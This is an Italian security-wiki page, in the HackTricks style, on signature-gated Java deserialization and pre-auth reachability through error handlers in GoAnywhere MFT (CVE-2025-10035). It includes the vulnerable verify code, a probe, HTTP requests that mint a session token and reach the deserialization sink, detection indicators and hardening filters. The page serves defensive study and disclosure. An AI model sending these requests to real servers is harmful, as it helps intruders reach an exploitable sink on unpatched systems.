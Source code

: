 # Java SignedObject-gated Deserialization and Pre-auth Reachability via Error Paths

{{#include ../../banners/hacktricks-training.md}}

Questa pagina documenta un comune pattern di deserializzazione "protetto" in Java basato su java.security.SignedObject e come sink apparentemente non raggiungibili possano diventare raggiungibili pre-auth tramite flussi di gestione degli errori. La tecnica è stata osservata in Fortra GoAnywhere MFT (CVE-2025-10035) ma è applicabile a design simili.

## Modello di minaccia

- Un attaccante può raggiungere un endpoint HTTP che alla fine elabora un byte[] fornito dall'attaccante e destinato a essere un SignedObject serializzato.
- Il codice usa un wrapper di validazione (es., Apache Commons IO ValidatingObjectInputStream o un adattatore personalizzato) per vincolare il tipo esterno a SignedObject (o byte[]).
- L'oggetto interno restituito da SignedObject.getObject() è il punto in cui le gadget chain possono attivarsi (es., CommonsBeanutils1), ma solo dopo un controllo di verifica della firma.

## Pattern vulnerabile tipico

Un esempio semplificato basato su com.linoma.license.gen2.BundleWorker.verify:
```java
private static byte[] verify(byte[] payload, KeyConfig keyCfg) throws Exception {
String sigAlg = "SHA1withDSA";
if ("2".equals(keyCfg.getVersion())) {
sigAlg = "SHA512withRSA";        // key version controls algorithm
}
PublicKey pub = getPublicKey(keyCfg);
Signature sig = Signature.getInstance(sigAlg);

// 1) Outer, "guarded" deserialization restricted to SignedObject
SignedObject so = (SignedObject) JavaSerializationUtilities.deserialize(
payload, SignedObject.class, new Class[]{ byte[].class });

if (keyCfg.isServer()) {
// Hardened server path
return ((SignedContainer) JavaSerializationUtilities.deserializeUntrustedSignedObject(
so, SignedContainer.class, new Class[]{ byte[].class }
)).getData();
} else {
// 2) Signature check using a baked-in public key
if (!so.verify(pub, sig)) {
throw new IOException("Unable to verify signature!");
}
// 3) Inner object deserialization (potential gadget execution)
SignedContainer inner = (SignedContainer) so.getObject();
return inner.getData();
}
}
```
Osservazioni chiave:
- Il deserializer di validazione in (1) blocca arbitrary top-level gadget classes; solo SignedObject (o raw byte[]) è accettato.
- La primitiva RCE risiederebbe nell'oggetto interno materializzato da SignedObject.getObject() in (3).
- Un controllo di firma in (2) impone che il SignedObject debba verificare contro una chiave pubblica incorporata nel prodotto. A meno che l'attaccante non possa produrre una firma valida, il gadget interno non viene mai deserializzato.

## Considerazioni sull'exploit

Per ottenere l'esecuzione di codice, un attaccante deve consegnare un SignedObject correttamente firmato che avvolge una catena di gadget malevoli come oggetto interno. Questo generalmente richiede una delle seguenti condizioni:

- Compromissione della chiave privata: ottenere la chiave privata corrispondente usata dal prodotto per firmare/verificare gli oggetti di licenza.
- Signing oracle: costringere il vendor o un servizio di firma di fiducia a firmare contenuti serializzati controllati dall'attaccante (es., se un license server firma un oggetto arbitrario incorporato dall'input client).
- Percorso alternativo raggiungibile: trovare un percorso server-side che deserializzi l'oggetto interno senza applicare verify(), o che salti i controlli della firma in una modalità specifica.

In assenza di una di queste condizioni, la verifica della firma impedirà lo sfruttamento nonostante la presenza di un deserialization sink.

## Raggiungibilità pre-auth tramite flussi di gestione degli errori

Anche quando un endpoint di deserializzazione sembra richiedere autenticazione o un token legato alla sessione, il codice di gestione degli errori può involontariamente creare e allegare il token a una sessione non autenticata.

Esempio di catena di raggiungibilità (GoAnywhere MFT):
- Servlet target: /goanywhere/lic/accept/<GUID> richiede un token di richiesta licenza legato alla sessione.
- Percorso di errore: colpire /goanywhere/license/Unlicensed.xhtml con trailing junk e stato JSF invalido scatena AdminErrorHandlerServlet, che esegue:
- SessionUtilities.generateLicenseRequestToken(session)
- Effettua redirect al vendor license server con una richiesta di licenza firmata in bundle=<...>
- Il bundle può essere decrittato offline (chiavi hard-coded) per recuperare il GUID. Conservare lo stesso cookie di sessione e fare POST a /goanywhere/lic/accept/<GUID> con bundle bytes controllati dall'attaccante, raggiungendo il SignedObject sink pre-auth.

Proof-of-reachability (impact-less) probe:
```http
GET /goanywhere/license/Unlicensed.xhtml/x?javax.faces.ViewState=x&GARequestAction=activate HTTP/1.1
Host: <target>
```
- Non patchato: 302 Location header verso https://my.goanywhere.com/lic/request?bundle=... e Set-Cookie: ASESSIONID=...
- Corretto: reindirizzamento senza bundle (nessuna generazione di token).

## Rilevamento Blue-team

Indicatori negli stack traces/logs suggeriscono fortemente tentativi di colpire uno SignedObject-gated sink:
```
java.io.ObjectInputStream.readObject
java.security.SignedObject.getObject
com.linoma.license.gen2.BundleWorker.verify
com.linoma.license.gen2.BundleWorker.unbundle
com.linoma.license.gen2.LicenseController.getResponse
com.linoma.license.gen2.LicenseAPI.getResponse
com.linoma.ga.ui.admin.servlet.LicenseResponseServlet.doPost
```
## Linee guida per l'hardening

- Mantenere la verifica della firma prima di qualsiasi chiamata a getObject() e assicurarsi che la verifica utilizzi la chiave pubblica/algoritmo previsto.
- Sostituire le chiamate dirette a SignedObject.getObject() con un wrapper rinforzato che riapplica il filtraggio allo stream interno (es., deserializeUntrustedSignedObject usando ValidatingObjectInputStream/ObjectInputFilter allow-lists).
- Rimuovere i flussi dei gestori di errore che emettono token legati alla sessione per utenti non autenticati. Considerare i percorsi di errore come superficie d'attacco.
- Preferire i Java serialization filters (JEP 290) con allow-lists rigorose sia per la deserializzazione esterna che per quella interna. Esempio:
```java
ObjectInputFilter filter = info -> {
Class<?> c = info.serialClass();
if (c == null) return ObjectInputFilter.Status.UNDECIDED;
if (c == java.security.SignedObject.class || c == byte[].class) return ObjectInputFilter.Status.ALLOWED;
return ObjectInputFilter.Status.REJECTED; // outer layer
};
ObjectInputFilter.Config.setSerialFilter(filter);
// For the inner object, apply a separate strict DTO allow-list
```
## Riepilogo della catena d'attacco di esempio (CVE-2025-10035)

1) Pre-auth token minting tramite l'error handler:
```http
GET /goanywhere/license/Unlicensed.xhtml/watchTowr?javax.faces.ViewState=watchTowr&GARequestAction=activate
```
Ricevi un 302 con bundle=... e ASESSIONID=...; decripta il bundle offline per recuperare il GUID.

2) Raggiungi il sink pre-auth con lo stesso cookie:
```http
POST /goanywhere/lic/accept/<GUID> HTTP/1.1
Cookie: ASESSIONID=<value>
Content-Type: application/x-www-form-urlencoded

bundle=<attacker-controlled-bytes>
```
3) RCE richiede un SignedObject correttamente firmato che incapsuli una gadget chain. I ricercatori non sono riusciti a bypassare la verifica della firma; lo sfruttamento dipende dall'accesso a una chiave privata corrispondente o a un signing oracle.

## Versioni corrette e cambiamenti comportamentali

- GoAnywhere MFT 7.8.4 e Sustain Release 7.6.3:
- Rinforzare la deserializzazione interna sostituendo SignedObject.getObject() con un wrapper (deserializeUntrustedSignedObject).
- Rimuovere la generazione del token dell'error-handler, chiudendo la raggiungibilità pre-auth.

## Note su JSF/ViewState

Il trucco della raggiungibilità sfrutta una pagina JSF (.xhtml) e un javax.faces.ViewState non valido per indirizzare verso un error handler privilegiato. Pur non essendo un problema di deserializzazione JSF, è un pattern ricorrente pre-auth: entrare negli error handler che eseguono azioni privilegiate e impostano attributi di sessione rilevanti per la sicurezza.

## Riferimenti

- [watchTowr Labs – Is This Bad? This Feels Bad — GoAnywhere CVE-2025-10035](https://labs.watchtowr.com/is-this-bad-this-feels-bad-goanywhere-cve-2025-10035/)
- [Fortra advisory FI-2025-012 – Deserialization Vulnerability in GoAnywhere MFT's License Servlet](https://www.fortra.com/security/advisories/product-security/fi-2025-012)

{{#include ../../banners/hacktricks-training.md}}
